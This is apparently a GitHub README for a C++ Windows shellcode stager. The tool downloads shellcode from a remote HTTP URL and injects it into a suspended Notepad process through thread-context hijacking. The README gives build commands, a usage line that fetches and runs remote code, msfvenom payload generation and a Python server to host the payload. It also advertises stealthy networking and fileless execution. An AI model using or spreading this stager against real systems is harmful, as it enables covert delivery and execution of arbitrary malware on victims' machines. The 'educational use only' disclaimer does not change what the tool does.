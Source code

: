 A simple Windows shellcode loader that downloads shellcode from a specified HTTP URL and injects it into a suspended process (Notepad.exe) using thread context hijacking.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAllocEx` in a suspended process
- Injecting shellcode into the suspended process's memory
- Hijacking the main thread’s context to execute shellcode (fileless execution)
- Using the `WinINet` API for stealthy network communication

> 🔐 Educational use only. Unauthorized use of this code is illegal.

## 📂 Filename

**Suspended-Process-Stager.cpp** – Console-based shellcode loader (C++)

## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`) in a suspended process
- **Execution**: Hijacks thread context to transfer control to shellcode in the remote process

## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target

## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ Suspended-Process-Stager.cpp -o Suspended-Process-Stager.exe -static -lwininet -s -Wl,-subsystem,console
```

## 🧪 Usage

```bash
Suspended-Process-Stager.exe http://<ip_address>/shellcode.bin
```

## 🛠️ Example Shellcode Generation

Using msfvenom:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o shellcode.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
Suspended-Process-Stager.exe http://127.0.0.1/shellcode.bin
```
